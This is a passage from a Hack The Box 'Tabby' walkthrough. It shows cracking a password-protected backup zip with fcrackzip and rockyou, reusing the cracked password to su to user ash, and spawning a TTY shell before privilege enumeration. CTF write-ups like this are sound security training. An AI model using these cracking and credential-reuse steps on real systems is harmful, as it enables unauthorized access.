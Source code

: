 ```bash
Readme.txt

cd files
ls -l 
total 28
-rw-r--r-- 1 ash  ash  8716 Jun 16 13:42 16162020_backup.zip
drwxr-xr-x 2 root root 4096 Jun 16 20:13 archive
drwxr-xr-x 2 root root 4096 Jun 16 20:13 revoked_certs
-rw-r--r-- 1 root root 6507 Jun 16 11:25 statement
```

Nothing in here contains anything (the revoked certs file we can't read due to perms) but I can download the backup file and look through that. Except not really because it has a password. Luckily it's weak and fcrackzip is a thing.
```bash
kali@kali:~/Desktop/htb/tabby$ fcrackzip --dictionary -p /usr/share/wordlists/rockyou.txt -u 16162020_backup.zip

PASSWORD FOUND!!!!: pw == admin@it
```

Extracting and looking through the files, it's basically a backup of the /var/www/html files containing the website, but only a few pages and there doesn't appear to be anything new in there. Just diffing the files from the current versions reveals contact info has changed and some images were taken out - most likely this is literally just a backup of the website's starting template. That leaves me with just the password.

### 5. Get access to a user account with the password
SSH failed with a public key error. However, I could use the password to switch the the "ash" user using su.
```bash
su ash
admin@it

whoami
ash
```

### 6. Escalate privileges
At this point I get to spawning a tty shell to begin enumeration again. I thought the root vulnerability was probably a misconfiguration, as the machine was running the latest version of Ubuntu so kernel or pre-installed applications were probably secure.
```bash
python3 -c "import pty; pty.spawn('/bin/bash')"  
ash@tabby:/var/lib/tomcat9$ sudo -l
sudo -l
sudo: unable to open /run/sudo/ts/ash: Read-only file system
ash@tabby:~$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

